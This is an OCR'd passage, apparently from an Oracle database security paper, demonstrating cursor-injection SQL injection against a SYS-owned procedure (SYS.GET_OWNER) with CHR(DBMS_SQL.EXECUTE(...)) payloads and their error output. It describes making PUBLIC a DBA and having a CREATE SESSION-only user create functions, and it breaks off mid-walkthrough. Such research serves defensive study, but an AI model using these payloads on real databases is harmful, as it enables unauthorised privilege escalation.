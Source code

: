 | | MY_CURSOR);

`  8  END; `
`  9  / `
`Cursor value is :4  `
`PL/SQL procedure successfully completed. `

`SQL> EXEC SYS.GET_OWNER('AAAA''`

| |CHR(DBMS_SQL.EXECUTE(4))--');

`BEGIN SYS.GET_OWNER('AAAA''`

| |CHR(DBMS_SQL.EXECUTE(4))--'); END;

`* `
`ERROR at line 1: `
`ORA-00942: table or view does not exist `
`ORA-06512: at line 1 `
`ORA-06512: at "SYS.DBMS_SYS_SQL", line 1200 `
`ORA-06512: at "SYS.DBMS_SQL", line 323 `
`ORA-06512: at "SYS.GET_OWNER", line 7 `
`ORA-06512: at line 1 `

The query here attempts to INSERT into the SYS.SYSAUTH$ table to make
PUBLIC a DBA - but as can be seen - an error is generated. Whilst we
can't use this to do an INSERT we've already seen we can grant DBA
privileges and another action an attacker can take using this method is
to create a function - even though they don't have the permissions to do
so directly. Let's create a user with only the CREATE SESSION privilege
and no more:

`SQL> CONNECT / AS SYSDBA `
`Connected. `
`SQL> CREATE USER CSESS IDENTIFIED BY PASSWORD; `
` `
`User created. `

`SQL> GRANT CREATE SESSION TO CSESS; `

`Grant succeeded. `

`SQL> CONNECT CSESS/PASSWORD `
`Connected. `
`SQL> SELECT PRIVILEGE FROM SESSION_PRIVS; `

`PRIVILEGE `
`---------------------------------------- `
`CREATE SESSION `

`SQL> `

Now with our test user, CSESS, in place let's go ahead, connect as them
and create a function even though we only have the CREATE SESSION
privilege:
